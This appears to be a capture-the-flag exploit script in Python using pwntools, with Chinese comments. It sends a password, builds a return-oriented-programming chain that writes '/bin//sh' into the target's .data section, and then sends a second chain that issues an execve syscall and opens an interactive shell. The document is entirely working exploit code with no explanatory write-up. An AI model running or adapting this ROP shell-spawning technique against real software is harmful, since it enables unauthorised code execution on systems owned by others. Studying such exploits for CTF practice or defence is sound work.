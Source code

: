 ```python
	io.send(b"PASSWORD\x00")

#用ropchain写入/bin/sh，回到start函数开始
p=b''
p += pack(0x0000000000410043) # pop rsi ; ret
p += pack(0x00000000006b90e0) # @ .data
p += pack(0x00000000004005af) # pop rax ; ret
p += b'/bin//sh'
p += pack(0x000000000047f341) # mov qword ptr [rsi], rax ; ret
p += pack(0x0000000000410043) # pop rsi ; ret
p += pack(0x00000000006b90e8) # @ .data + 8
p+=p64(0x400ab0)
sendbuf(p)
jumpout()

#写入syscall
payload = p64(rdi)+p64(0x6b90e0)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(rax)+p64(59)+p64(syscall)
sendbuf(payload)
jumpout()

io.interactive()
```
